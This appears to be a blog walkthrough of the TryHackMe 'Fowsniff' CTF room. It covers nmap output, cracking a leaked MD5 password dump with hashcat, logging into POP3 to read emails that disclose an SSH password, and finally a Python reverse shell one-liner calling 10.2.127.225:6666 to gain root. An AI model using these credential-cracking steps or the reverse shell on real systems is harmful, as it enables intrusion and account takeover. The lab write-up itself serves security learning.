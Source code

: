 ```yaml
---
layout: post
title: Walkthrough - Fowsniff CTF
published: true
---
```


Portscanning, Hashes, Bruteforcing, POP3. Hack this machine and get the flag. There are lots of hints along the way and is perfect for beginners!

[https://tryhackme.com/room/ctf](https://tryhackme.com/room/ctf)

* * *

## Task 1 Hack into the FowSniff organisation.

**Using nmap, scan this machine. What ports are open?**

```shell
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Fowsniff Corp - Delivering Solutions
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: USER TOP SASL(PLAIN) UIDL AUTH-RESP-CODE CAPA RESP-CODES PIPELINING
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: AUTH=PLAINA0001 ID ENABLE listed post-login LITERAL+ IMAP4rev1 IDLE have capabilities Pre-login OK LOGIN-REFERRALS more SASL-IR
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Using the information from the open ports. Look around. What can you find?**

- an open webserver open pop3 server and open imap server. we find the Fowsniff corp has been hacked and all credentials leaked.

**Using Google, can you find any public information about them?**

- checking the twitter can see the pastebin dump with all the passwords. And more hints we can use.

```shell
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!
 
 
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
 
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
 
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
 
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
 
l8r n00bz!
 
B1gN1nj4
```

**Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.**

- hashcat can crack all but stones ``hashcat -m 0 fowsniff.creds rockyou.txt``

```shell
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo10
tegel@fowsniff:1dc352435fecca338acfd4be10984009:apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb:skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever 
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11:orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e:07011972
```

**Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?**

- we can but we already have the credentials, so just going to telnet in.

**What was seina's password to the email service?**

- scoobydoo2

**Can you connect to the pop3 service with her credentials? What email information can you gather?**

```
Trying 10.10.239.3...
Connected to 10.10.239.3.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
STAT
+OK 2 2902
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```

```
Received: by fowsniff (Postfix, from userid 1004)
        id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.
```

**Looking through her emails, what was a temporary password set for her?**

- ``S1ck3nBluff+secureshell``

**In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.**

- baksteen

**Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?**

- ``id``
- ``find / -user 1001 2>/dev/null``

**Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?**

Python Reverse Shell:

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.127.225",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'``

When we connect again with ssh it will send us a reverse shell we can login as root.

* * * 

